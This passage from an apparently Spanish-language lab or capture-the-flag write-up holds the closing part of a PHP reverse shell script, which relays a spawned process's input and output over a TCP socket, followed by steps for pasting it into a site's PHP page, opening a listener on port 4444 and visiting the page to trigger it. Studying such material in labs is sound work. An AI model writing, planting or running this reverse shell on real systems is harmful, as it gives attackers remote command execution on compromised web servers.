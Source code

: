 ```python
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?> 
```

### cambiamos el codigo php por nuestro codigo. editaos los parametros necesarios y actualizamos.

![[Pasted image 20240612145024.png]]

### ahora vamos a ingresar a la direccion url que hemos conseguido donde aparentemente se guardaron los cambios. pero primero debemos ponernos a la escucha por el puerto que hemos especificado. en este caso el 4444
